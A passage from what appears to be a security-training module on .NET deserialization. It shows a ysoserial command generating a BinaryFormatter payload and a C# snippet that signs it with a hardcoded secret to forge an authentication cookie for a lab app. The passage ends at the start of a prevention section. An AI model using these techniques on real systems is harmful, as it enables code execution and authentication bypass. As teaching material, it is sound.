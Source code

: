 ![image](https://academy.hackthebox.com/storage/modules/240/3/59.png)

## Example 3: Binary, Authentication Cookie

For the last example, let's take a look at using `YSoSerial.NET` to exploit the authentication cookie, which used `BinaryFormatter` for (de-)serialization.

Generating a payload for `BinaryFormatter` is as simple as running the following command:

```powershell
PS C:\htb> .\ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -c 'notepad' -o base64

```

However, as you should expect, this payload will not work due to the cookie validation that goes on before deserialization. Once again this payload will need to be modified to work with `TeeTrove`, but this is not very difficult when we have the decompiled source code to aid us in development:

```csharp
private static readonly string AUTH_COOKIE_SECRET = "916344<SNIP>";

private static string createSHA256HashB64(string session_b64)
{
    <SNIP>
}

static void Main(string[] args)
{
    string ysoserial_payload_b64 = "AAEAAAD/////AQAAAAAAA<SNIP>";
    string authCookieVal = ysoserial_payload_b64 + "." + createSHA256HashB64(ysoserial_payload_b64);
    Console.WriteLine(authCookieVal);
}

```

With this short program to turn the `YSoSerial.NET` payload into a usable payload for `TeeTrove`, exploitation works as expected, but once again this is an example of why it is important to understand how to do things manually in case the automated tools can not do exactly what we want.

![image](https://academy.hackthebox.com/storage/modules/240/3/60.png)


# Preventing Deserialization Vulnerabilities

## Introduction

With `vulnerability assessment` and `exploit development` covered, let's look at `deserialization` from a `defender/developers` point of view, and discuss what can be done to `prevent deserialization vulnerabilities` from occurring.

## Guidelines
